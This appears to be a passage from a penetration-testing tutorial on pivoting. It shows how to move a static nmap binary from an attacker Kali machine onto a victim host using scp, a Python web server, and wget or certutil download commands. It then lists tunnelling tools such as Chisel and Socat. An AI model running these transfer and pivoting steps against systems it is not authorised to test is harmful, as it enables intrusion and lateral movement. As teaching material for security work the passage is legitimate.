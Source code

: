 [**https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/nmap**](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap)

download it on our attacker machine (Kali), assign exe privilege:

```bash
wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap #download nmap binary
chmod +x nmap #give execution permission
```

and copy binary to victim machina via SSH:

```bash
scp nmap pivot@IP:/tmp #copy via ssh on /tmp victim machine directory 
```

or using hosting it on a python web server and downloading it on victim machine:

```bash
python3 -m http.server 80 #on attacker machine, on the same directory of nmap
wget http://<kali_nat1>/nmap #if victim machine has Linux OS
certutil -urlcache -split -f http://<kali_nat1>/nmap #if victim machine has Windows OS
```



Now, we've transferred nmap on victim/pivot machine and we can run it there:

```bash
./nmap IP #we need to use -Pn flag to scan Windows machines
```

## Pivoting phase

Now, we've scanning tool (bash script or nmap) to discover network and other subnets of victim/pivot machine, but we can't do a simple ping or scan to IP regarding external subnets from our attacker machine (kali).

To give a link between attacker machine and external iPs we need to using pivoting techniques.

#### **Tools for Pivoting**

* [Chisel](https://github.com/jpillora/chisel)
* Metasploit (auxiliary/server/socks\_proxy)
* Logolo-ng
* [Socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)
* Netsh

### Chisel

**Chisel** is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

{% embed url="https://github.com/jpillora/chisel" %}
